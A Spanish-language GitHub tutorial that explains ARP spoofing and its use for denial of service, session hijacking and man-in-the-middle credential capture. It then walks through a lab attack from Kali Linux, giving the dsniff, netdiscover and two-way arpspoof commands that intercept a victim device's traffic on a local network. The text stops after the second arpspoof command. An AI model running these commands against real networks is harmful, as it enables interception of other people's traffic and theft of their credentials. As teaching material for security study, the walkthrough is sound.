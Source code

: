 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=430&lines=Ataque+de+ARP+Spoofing/Poison"></a>
</p>

<h1 align="center"></h1>

La suplantación de ARP (ARP Spoofing) o envenenamiento ARP (ARP Poison) es un tipo de ataque en el que un autor malicioso envía mensajes ARP (Protocolo de Resolución de Direcciones) falsificados a través de una red local, lo que da como resultado la vinculación de la dirección MAC del atacante con la dirección MAC del dispositivo o servidor legítimo en la red. De este modo, el atacante comenzará a recibir los datos destinados de esa dirección IP, permitiendo así que que partes malintencionadas intercepten, modifiquen o incluso detengan datos en tránsito. 

Los ataques de suplantación de identidad ARP solo pueden ocurrir en redes de área local que utilizan el Protocolo de resolución de direcciones. Se trata de un protocolo muy importante en la red ya que tiene como objetivo vincular la dirección MAC correspondiente con la IP asignada. Para conseguir esto se envía un paquete (solicitud ARP) a todos los dispositivos en la LAN Ethernet. ARP convierte dinámicamente las direcciones de Internet en las direcciones de hardware con una dirección IP, cada dispositivo recibe una máscara de subred, dirección IP y MAC para poder navegar en internet y enviar datos a través TCP/IP.

Dicho lo anterior, ARP es un protocolo sumamente importante pero que en ocasiones presenta vulnerabilidades. Es por ello que puede haber suplantación ARP, este ataque suele ocurrir en áreas de redes locales y tiene graves consecuencias tanto para simples usuarios como a nivel empresarial. Los ataques de suplantación ARP se utilizan para robar información confidencial, pero más allá de ésto, a menudo se ejecutan para facilitar otros vectores de ataque como:

- **Ataques de denegación de servicio**: Los ataques DoS se aprovechan de la suplantación de ARP para vincular varias direcciones IP con la dirección MAC de un solo objetivo. De tal manera que el tráfico destinado a muchas direcciones IP diferentes se redirigirá a la dirección MAC del objetivo, sobrecargando el objetivo con tráfico.

- **Secuestro de sesión**: Los ataques de secuestro de sesión pueden usar la suplantación de identidad ARP para robar ID de sesión, otorgando a los atacantes acceso a sistemas y datos privados.

- **Ataques de hombre en medio (MITM)**: Los ataques MITM pueden basarse en la suplantación de identidad ARP para interceptar y modificar el tráfico entre las víctimas, permitiendo ver y capturar las credenciales de sitios webs que visita el usuario.



<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Redes/GNU-Linux/img/ARP_Spoofing.png">
</p>

<h1 align="center"></h1>

### Ataque ARP Spoofing a Windows 10 | Manual

El siguiente ejercicio práctico que se vera a continuación es cómo realizar un ataque ARP Spoofing a un sistema Windows desde nuestro laboratorio hacking (Kali Linux), cambiando la dirección MAC de la víctima y poder leer o enviar paquetes hacia su equipo pasando antes por nuestro atacante.

Desde nuestra máquina atacante debemos tener instalada la herramienta **ArpSpoof** de la suite Dsniff.

**_Instalar en Debian:_**
```
sudo apt-get install dsniff
```

El primer paso es conocer la dirección IP de nuestro Gateway. Para esto, ejecutar el siguiente comando:
```
route -n
```

![1](https://user-images.githubusercontent.com/75953873/229241674-7c33df54-fd21-4414-b339-c3bef833dc17.png)


Seguidamente debemos reconocer la dirección IP privada de nuestra víctima (en mi caso un dispositivo Android). Para ello, podemos hacer uso de varias herramientas que viene instaladas por defecto, por ejemplo, Netdiscover.

```
netdiscover -i wlan0 -r 192.168.1/24
```
![2](https://user-images.githubusercontent.com/75953873/230746245-726156f1-a7ca-4f24-b6a6-cd371f0ff29b.png)


Lo que haremos a continuación es interceptar el tráfico del dispositivo Android (192.168.1.4), de modo que, el tráfico pase por nosotros y éste pase al Gateway (192.168.1.1) y viceversa. Ejecutamos el siguiente comando:

```
arpspoof -i wlan0 -t 192.168.1.4 192.168.1.1
```

- **-i**: Especificar la interfaz de red.

- **-t**: IP privada de la víctima (tráfico a interceptar).

![3](https://user-images.githubusercontent.com/75953873/230746316-bcd82f1f-e22c-4e27-a7e9-c692a60a1fa3.png)

En la imagen anterior se observa como el tráfico del dispositivo Android fue interceptado para que primero pase por mi máquina atacante y luego redireccionado al Gateway. Ahora, abrimos otra terminal (sin cerrar la primera) y ejecutamos el mismo comando pero viceversa, es decir, capturar el tráfico del Gateway (respuesta) que va dirigido a la víctima.

```
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.4
```
